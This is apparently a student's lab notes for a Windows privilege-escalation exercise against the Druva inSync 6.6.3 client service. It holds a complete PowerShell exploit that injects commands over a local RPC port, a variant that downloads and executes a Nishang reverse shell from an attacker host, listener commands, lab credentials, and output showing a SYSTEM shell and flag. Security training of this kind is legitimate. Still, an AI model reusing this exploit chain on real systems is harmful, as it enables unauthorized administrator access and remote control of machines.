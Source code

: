# Vulnerable Services

We may be able to escalate privileges on well-patched and well-configured systems if users are permitted to install software or vulnerable third-party applications/services are used throughout the organization. 

## Enumerating Installed Programs

```
wmic product get name

Name
Microsoft Visual C++ 2019 X64 Minimum Runtime - 14.28.29910
Update for Windows 10 for x64-based Systems (KB4023057)
Microsoft Visual C++ 2019 X86 Additional Runtime - 14.24.28127
VMware Tools
Druva inSync 6.6.3
Microsoft Update Health Tools
Microsoft Visual C++ 2019 X64 Additional Runtime - 14.28.29910
Update for Windows 10 for x64-based Systems (KB4480730)
Microsoft Visual C++ 2019 X86 Minimum Runtime - 14.24.28127
```

--> the Druva inSync application stands ou

https://www.exploit-db.com/exploits/49211

## Enumerating Local Ports

```
netstat -ano | findstr 6064

  TCP    127.0.0.1:6064         0.0.0.0:0              LISTENING       3324
  TCP    127.0.0.1:6064         127.0.0.1:50274        ESTABLISHED     3324
  TCP    127.0.0.1:6064         127.0.0.1:50510        TIME_WAIT       0
  TCP    127.0.0.1:6064         127.0.0.1:50511        TIME_WAIT       0
  TCP    127.0.0.1:50274        127.0.0.1:6064         ESTABLISHED     3860
```

## Enumerating Process ID

```
get-process -Id 3324

Handles  NPM(K)    PM(K)      WS(K)     CPU(s)     Id  SI ProcessName
-------  ------    -----      -----     ------     --  -- -----------
    149      10     1512       6748              3324   0 inSyncCPHwnet64
```

## Enumerating Running Service

```
get-service | ? {$_.DisplayName -like 'Druva*'}

Status   Name               DisplayName
------   ----               -----------
Running  inSyncCPHService   Druva inSync Client Service
```

## Druva inSync Windows Client Local Privilege Escalation Example

1) Check Exploit POC :

https://www.exploit-db.com/exploits/49211

```
$ErrorActionPreference = "Stop"

$cmd = "net user pwnd /add"

$s = New-Object System.Net.Sockets.Socket(
    [System.Net.Sockets.AddressFamily]::InterNetwork,
    [System.Net.Sockets.SocketType]::Stream,
    [System.Net.Sockets.ProtocolType]::Tcp
)
$s.Connect("127.0.0.1", 6064)

$header = [System.Text.Encoding]::UTF8.GetBytes("inSync PHC RPCW[v0002]")
$rpcType = [System.Text.Encoding]::UTF8.GetBytes("$([char]0x0005)`0`0`0")
$command = [System.Text.Encoding]::Unicode.GetBytes("C:\ProgramData\Druva\inSync4\..\..\..\Windows\System32\cmd.exe /c $cmd");
$length = [System.BitConverter]::GetBytes($command.Length);

$s.Send($header)
$s.Send($rpcType)
$s.Send($length)
$s.Send($command)
```

2) Modifying PowerShell PoC :

https://github.com/samratashok/nishang/blob/master/Shells/Invoke-PowerShellTcp.ps1

Rename it to shell.ps1

Append at the bottom of the script :
Invoke-PowerShellTcp -Reverse -IPAddress 10.10.14.3 -Port 9443

Modify the POC exploit :
```
$cmd = "powershell IEX(New-Object Net.Webclient).downloadString('http://10.10.14.3:8080/shell.ps1')"
```

3) Starting a Python Web Server

```
python3 -m http.server 8080
```

4) Catching a SYSTEM Shell

```
nc -lvnp 9443
```

## LAB

xfreerdp /v:10.129.43.44 /u:htb-student /p:HTB_@cademy_stdnt!

type c:\Users\Administrator\Desktop\VulServices\flag.txt

$cmd = "powershell IEX(New-Object Net.Webclient).downloadString('http://10.10.14.16:8080/shell.ps1')"

git clone https://github.com/samratashok/nishang
cd nishang/Shells/
cp Invoke-PowerShellTcp.ps1 shell.ps1
Invoke-PowerShellTcp -Reverse -IPAddress 10.10.14.16 -Port 9443

python3 -m http.server 8080

.\Druva.ps1

nc -lvnp 9443

Ncat: Version 7.93 ( https://nmap.org/ncat )
Ncat: Listening on :::9443
Ncat: Listening on 0.0.0.0:9443
Ncat: Connection from 10.129.43.44.
Ncat: Connection from 10.129.43.44:55556.
Windows PowerShell running as user WINLPE-WS01$ on WINLPE-WS01
Copyright (C) 2015 Microsoft Corporation. All rights reserved.

PS C:\WINDOWS\system32>type c:\Users\Administrator\Desktop\VulServices\flag.txt
Aud1t_th0se_th1rd_paRty_s3rvices!
